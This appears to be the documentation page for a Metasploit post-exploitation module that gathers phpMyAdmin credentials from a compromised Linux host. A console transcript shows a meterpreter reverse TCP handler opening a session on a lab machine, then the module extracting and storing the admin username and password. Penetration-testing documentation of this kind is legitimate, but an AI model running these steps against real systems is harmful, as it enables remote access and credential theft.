 ## Description

This post module gathers PhpMyAdmin Creds from target Linux machine.

* https://www.phpmyadmin.net/downloads/ [Download URL]

## Verification Steps

1. Start `msfconsole`
2. Get a session
3. Do: `use post/linux/gather/phpmyadmin_credsteal`
4. Do: `set SESSION [SESSION]`
5. Do: `run`

## Scenarios

```
msf5 > use multi/handler
msf5 exploit(multi/handler) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.37.1:4444 
[*] Sending stage (816260 bytes) to 192.168.37.226
[*] Meterpreter session 2 opened (192.168.37.1:4444 -> 192.168.37.226:34880) at 2018-09-06 08:49:52 -0500

meterpreter > background
[*] Backgrounding session 2...
msf5 exploit(multi/handler) > use post/linux/gather/phpmyadmin_credsteal 
msf5 post(linux/gather/phpmyadmin_credsteal) > set session 2
session => 2
msf5 post(linux/gather/phpmyadmin_credsteal) > run


PhpMyAdmin Creds Stealer!

[+] PhpMyAdmin config found!
[+] Extracting creds
[+] User: admin
[+] Password: acoolpassword
[*] Storing credentials...
[*] Post module execution completed
msf5 post(linux/gather/phpmyadmin_credsteal) > 

```
